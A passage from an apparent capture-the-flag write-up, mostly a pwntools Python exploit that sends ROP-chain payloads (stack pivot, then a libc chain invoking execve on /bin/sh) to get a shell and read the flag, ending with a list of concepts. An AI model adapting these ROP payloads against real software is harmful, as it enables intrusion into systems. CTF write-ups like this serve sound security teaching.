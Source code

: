 ```python3
input("Press Enter to send next payload\n")

second_payload = b"\x90" * 40     # Padding
second_payload += p64(0x4010ed)   # Address of pop rbp
second_payload += p64(0x404020)   # new rbp value: .data + 0x20
second_payload += p64(0x40110a)   # Address to read call
second_payload += p64(0xdeadbeef) # Garbage RBP value
second_payload += p64(0x401107)   # Read in third rop chain
second_payload += b"\n"

p.send(second_payload)

input("Press Enter to send next payload\n")

p.send(b"/bin/sh\x00")

# Converts a libc address to its actual address based on the offset
def address(address):
    return address + lib.address

input("Press Enter to send next payload\n")

third_payload = b"\x90" * 40
third_payload += p64(address(0x0000000000084dff))  # pop rax
third_payload += p64(0x3b)                         # rax value
third_payload += p64(address(0x000000000011903c))  # pop rdi
third_payload += p64(0x404000)                     # rdi value
third_payload += p64(address(0x000000000011a3fd))  # pop rsi
third_payload += p64(0x0)                          # null
third_payload += p64(address(0x0000000000067e22))  # pop rdx
third_payload += p64(0x0)                          # null
third_payload += p64(0x401126)                     # syscall

p.send(third_payload)

p.interactive()
```

This gives a shell and you can simply `cat flag.txt`.

(Remember to send each payload manually by pressing the enter key in the terminal)

## Important Concepts
- libc rop chaining
- writev
- address leaks



